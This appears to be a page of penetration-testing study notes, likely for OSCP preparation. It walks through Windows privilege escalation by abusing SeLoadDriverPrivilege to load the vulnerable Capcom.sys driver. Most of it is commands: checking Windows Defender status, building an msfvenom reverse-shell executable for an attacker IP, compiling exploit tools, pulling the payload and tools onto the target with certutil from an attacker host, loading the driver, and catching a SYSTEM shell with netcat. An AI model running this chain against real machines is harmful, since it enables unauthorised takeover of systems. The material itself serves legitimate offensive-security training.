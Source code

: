 #### References 

https://www.tarlogic.com/blog/abusing-seloaddriverprivilege-for-privilege-escalation/

#### Conditions

- version < Windows 10 20H2 (Build 19042)
- Windows Defender non-active
- user in ```Print Operators``` group ```(whoami /groups)```
- SeLoadDriverPrivilege ```(whoami/priv)```

checking if Windows Defender is active

```powershell
# Disabled:1
get-item 'hklm:\SOFTWARE\Microsoft\Windows Defender\Real-Time Protection\'
```

#### Steps

create reverse shell

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attacker ip> LPORT=<attacker port> -f exe -o rev.exe
```

download Capcom.sys

```
https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys
```

download eoploaddriver.cpp and compile

```
https://github.com/TarlogicSecurity/EoPLoadDriver/blob/master/eoploaddriver.cpp
```

create a new project (Visual Studio 2022 Community Edition)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Pic/Windows/Privilege/EoPLoadDriver_20220724_1.png)
![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Pic/Windows/Privilege/EoPLoadDriver_20220724_2.png)

change project name ```eoploaddriver```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Pic/Windows/Privilege/EoPLoadDriver_20220724_3.png)

copy and paste the contents of the ```eoploaddriver.cpp``` file and comment out line 6 ```#include "stdafx.h"```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Pic/Windows/Privilege/EoPLoadDriver_20220724_4.png)

configure project to target platforms

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Pic/Windows/Privilege/EoPLoadDriver_20220724_5.png)

build project

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Pic/Windows/Privilege/EoPLoadDriver_20220724_6.png)

executable file default location

```
C:\Users\<user>\source\repos\eoploaddriver\x64\Release
```

download ExploitCapcom project and compile

```
https://github.com/tandasat/ExploitCapcom
```

Execute original file will pop up an additional window. The code must be modified to run the reverse shell payload.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Pic/Windows/Privilege/EoPLoadDriver_20220724_7.png)


upload the files we need on the target

```
certutil -urlcache -split -f "http://<attcker ip>/Capcom.sys" "C:\Windows\Temp\Capcom.sys"
certutil -urlcache -split -f "http://<attcker ip>/eoploaddriver.exe" "C:\Windows\Temp\eoploaddriver.exe"
certutil -urlcache -split -f "http://<attcker ip>/ExploitCapcom.exe" "C:\Windows\Temp\ExploitCapcom.exe"
certutil -urlcache -split -f "http://<attcker ip>/rev.exe" "C:\Windows\Temp\rev.exe"
```

execute the ```eoploaddriver.exe``` on the target (Note that Capcom.sys must specify the full path)

```
C:\Windows\Temp\eoploaddriver.exe System\CurrentControlSet\dfserv C:\Windows\Temp\Capcom.sys
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Pic/Windows/Privilege/EoPLoadDriver_20220724_8.png)

start listening

```
sudo nc -nlvp 80
```

execute the ```ExploitCapcom.exe``` 

```
C:\Windows\Temp\ExploitCapcom.exe
```

![iamge](https://github.com/tedchen0001/OSCP-Notes/blob/master/Pic/Windows/Privilege/EoPLoadDriver_20220724_9.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Pic/Windows/Privilege/EoPLoadDriver_20220724_10.png)